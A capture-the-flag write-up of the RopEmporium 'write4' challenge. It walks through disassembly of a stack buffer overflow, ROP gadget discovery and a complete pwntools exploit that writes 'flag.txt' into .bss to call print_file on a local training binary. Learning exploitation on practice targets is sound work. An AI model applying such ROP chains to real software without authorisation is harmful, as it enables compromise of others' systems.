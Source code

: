 ```yaml
---
title: "RopEmporium - Write"
date: 2021-12-17T14:27:14Z
draft: false
authors: ["Thuri"]
tags: ["rop", "RopEmporium"]
summary: " Goal of the challenge is to understand how to abuse readable and writable memory regions in binary files"
toc:
    enable: true
    auto: false

code:
    maxShownLines: 100
---
```


Goal of the challenge is to understand how to abuse readable and writable memory regions in binary files. The target binary can be downloaded from the author's website [ropemporium](https://ropemporium.com).

> Our first foray into proper gadget use.
> A useful function is still present, but we'll need to write a string into memory somehow.

First, we check the binary protections enabled on the binary. Only **NX** (Not executable) protection is enabled on the binary according to `checksec` binary utility as shown in the image below.

```bash
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

For the analysis of binary, we will use a debugger to analyze the functions. For analysis of our binary, we start at the `main` function which is the entry point of our execution.

```asm
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000400607 <+0>:	push   rbp
   0x0000000000400608 <+1>:	mov    rbp,rsp
   0x000000000040060b <+4>:	call   0x400500 <pwnme@plt>
   0x0000000000400610 <+9>:	mov    eax,0x0
   0x0000000000400615 <+14>:	pop    rbp
   0x0000000000400616 <+15>:	ret
End of assembler dump.
(gdb)
```

From the above, the main function only calls `pwnme` function which looks interesting to us. Disassemble the **pwnme** function as shown below. `pwnme@plt` is used for referencing `pwnme` real address. The next step is analyzing `libwrite4.so` library using gdb.

```asm
vx@archie:write4$ gdb -q libwrite4.so
Reading symbols from libwrite4.so...
(No debugging symbols found in libwrite4.so)
(gdb) disas pwnme
Dump of assembler code for function pwnme:
   0x00000000000008aa <+0>:	push   rbp
   0x00000000000008ab <+1>:	mov    rbp,rsp
   0x00000000000008ae <+4>:	sub    rsp,0x20
   0x00000000000008b2 <+8>:	mov    rax,QWORD PTR [rip+0x200727]        # 0x200fe0
   0x00000000000008b9 <+15>:	mov    rax,QWORD PTR [rax]
   0x00000000000008bc <+18>:	mov    ecx,0x0
   0x00000000000008c1 <+23>:	mov    edx,0x2
   0x00000000000008c6 <+28>:	mov    esi,0x0
   0x00000000000008cb <+33>:	mov    rdi,rax
   0x00000000000008ce <+36>:	call   0x790 <setvbuf@plt>
   0x00000000000008d3 <+41>:	lea    rdi,[rip+0x106]        # 0x9e0
   0x00000000000008da <+48>:	call   0x730 <puts@plt>
   0x00000000000008df <+53>:	lea    rdi,[rip+0x111]        # 0x9f7
   0x00000000000008e6 <+60>:	call   0x730 <puts@plt>
   0x00000000000008eb <+65>:	lea    rax,[rbp-0x20]
   0x00000000000008ef <+69>:	mov    edx,0x20
   0x00000000000008f4 <+74>:	mov    esi,0x0
   0x00000000000008f9 <+79>:	mov    rdi,rax
   0x00000000000008fc <+82>:	call   0x760 <memset@plt>
   0x0000000000000901 <+87>:	lea    rdi,[rip+0xf8]        # 0xa00
   0x0000000000000908 <+94>:	call   0x730 <puts@plt>
   0x000000000000090d <+99>:	lea    rdi,[rip+0x115]        # 0xa29
   0x0000000000000914 <+106>:	mov    eax,0x0
   0x0000000000000919 <+111>:	call   0x750 <printf@plt>
   0x000000000000091e <+116>:	lea    rax,[rbp-0x20]
   0x0000000000000922 <+120>:	mov    edx,0x200
   0x0000000000000927 <+125>:	mov    rsi,rax
   0x000000000000092a <+128>:	mov    edi,0x0
   0x000000000000092f <+133>:	call   0x770 <read@plt>
   0x0000000000000934 <+138>:	lea    rdi,[rip+0xf1]        # 0xa2c
   0x000000000000093b <+145>:	call   0x730 <puts@plt>
   0x0000000000000940 <+150>:	nop
   0x0000000000000941 <+151>:	leave
   0x0000000000000942 <+152>:	ret
End of assembler dump.
(gdb)
```

From the assembly code above, we are filling a buffer of size 0x20(32bytes) with a constant byte of zero. `memset` libc function is used to overwrite any values that have the memory area specified. The memory we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size 32 bytes from the address of base pointer in the stack.

![stack Layout](/ropemporium/stack.png)

Therefore the next interesting libc function is **read** function, which reads user input and stores results in the specified buffer.From the above disassembled code, we are reading 0x200 bytes from the user and storing it in our buffer. This means we are reading more than what the buffer can hold, therefore leading to a stack buffer overflow.

```c
ssize_t read(int fd, void *buf, size_t count);  // read(0,[rbp-0x20], 0x200)
```

From the vulnerability, we can exploit it to abuse the control flow of the program by controlling the value of the return address.
From the author's hint, we need to look for an ELF section that is writable to write our target string.

> Perhaps the most important thing to consider in this challenge is where we're going to write our "flag.txt" string. Use rabin2 or readelf to check out the different sections of this binary and their permissions. Learn a little about ELF sections and their purpose.

Opening the binary in radare2, we can check the permissions of different sections using the command **iS** as shown in the image below.
From the above, we are able to determine the data and bss section are both readable and writable. Our target for the gadgets is to write our string to the **bss** section. Therefore we need to get the memory address of the **.bss** area.
From the author's challenge hint, we need to disassemble `usefulFunction` to understand how it works.

> Important!: A PLT entry for a function named print_file() exists within the challenge binary, simply call it with the name of a file you wish to read (like "flag.txt") as the 1st argument.

`usefulFunction` function is responsible for calling **print_file** function as hinted by the author.

![Print file](/ropemporium/write4_useful.png)

From the analysis of the above function, we can determine we are passing a string file name called **"nonexistent"** to the print_file function. The content of the arguments passed to the print_file function will be printed out to the user. Our goal is to pass our string of interest **flag.txt** to the `print_file` function.

From the disassembly of the binary, we have another interesting function called **usefulGadgets**.

```asm
(gdb) disas usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x0000000000400628 <+0>:	mov    QWORD PTR [r14],r15
   0x000000000040062b <+3>:	ret
   0x000000000040062c <+4>:	nop    DWORD PTR [rax+0x0]
End of assembler dump.
(gdb)
```

The gadget from the above assembly code will enable us to write the content of `r15`` register to memory address [r14]. The next step is to look for gadgets that will enable us to control both **r14** and **r15** register values.

For building our chain, we need to understand the calling conventions of AMD64 ABI. The calling convention passes the arguments to the registers in the following order. RDI, RSI, RDX, RCX, R8 and R9.In x86 assembly **pop** instruction is used for putting value to the memory address, therefore we look for a pop gadget that will enable to control of both `r14` and `r15`.

```asm
  0x0040068f                 5d  pop rbp
  0x00400690               415e  pop r14
  0x00400692               415f  pop r15
  0x00400694                 c3  ret
```

Example of the above gadget, we have a pop rbp, pop r14, pop 15 ret instruction gadget. This gadget will enable us to control the desired registers. Because we don't need the rbp register, for our ropchain, we take the address pointed by pop14 **0x00400690**. This is possible because rop gadgets are set of instructions that end with **ret**.

From the disassembly of `usefulgadgets` function we know register r14 points to a memory region we want to write to. Therefore our strategy is to set the value of r14 register to be the address pointer of **.bss** section of ELF and r15 register to be the value we want to write to **.bss** section.

> Hopefully you've realized that ROP is just a form of arbitrary code execution and if we get creative we can leverage it to do things like write to or read from memory. The question we need to answer is: what mechanism are we going to use to solve this problem? Is there any built-in functionality to do the writing or do we need to use gadgets? In this challenge we won't be using built-in functionality since that's too similar to the previous challenges, instead we'll be looking for gadgets that let us write a value to memory such as mov [reg], reg.

```asm
  0x00400628             4d893e  mov qword [r14], r15
  0x0040062b                 c3  ret
```

Therefore, two gadgets will enable us to set the register values of `r14` and `r15` and copy the values of r15 to the memory region defined by r14.

Last is a find a gadget that will aid in passing an argument to the `print_file` function. Because the function takes one argument, we look for a `pop rdi ret` instruction

```asm
  0x00400693                 5f  pop rdi
  0x00400694                 c3  ret
```

Now we have three separate rop gadgets, which we can chain together to get a fully working rop chain. This chain will enable us to read the file content of the **flag.txt** and display output to the console.

A fully working ropchain exploit code of the challenge is,

```python
import pwn

pwn.context.arch = "amd64"
pwn.context.encoding ="latin-1"
pwn.warnings.simplefilter("ignore")
io = pwn.process('./write4')

bss_area = pwn.p64(0x00601038)
pop_r14_r15 = pwn.p64(0x00400690)
pop_rdi = pwn.p64(0x00400693)
mov_r14_r15 = pwn.p64(0x00400628)
print_file_addr = pwn.p64(0x0000000000400510)

payload = b"A" * 32 #fill the buffer
payload += b"B" *8  #overwrite the base pointer
payload += pop_r14_r15
payload += bss_area
payload += b"flag.txt"
payload += mov_r14_r15
payload += pop_rdi
payload += bss_area
payload += print_file_addr

io.writeafter('>', payload)

pwn.info(io.recvall().decode())
```

Successful execution of our exploit will display a success flag.

```bash
vx@archie:write4$ python3 x.py
[+] Starting local process './write4': pid 7275
[+] Receiving all data: Done (45B)
[*] Process './write4' stopped with exit code -11 (SIGSEGV) (pid 7275)
[*]  Thank you!
    ROPE{a_placeholder_32byte_flag!}
```
